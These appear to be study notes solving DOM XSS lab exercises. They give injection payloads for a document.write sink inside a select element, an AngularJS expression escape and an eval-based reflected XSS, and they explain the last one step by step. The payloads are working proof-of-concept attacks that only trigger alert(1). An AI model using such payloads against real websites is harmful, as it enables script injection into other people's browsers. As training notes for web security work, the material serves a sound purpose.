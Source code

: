 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.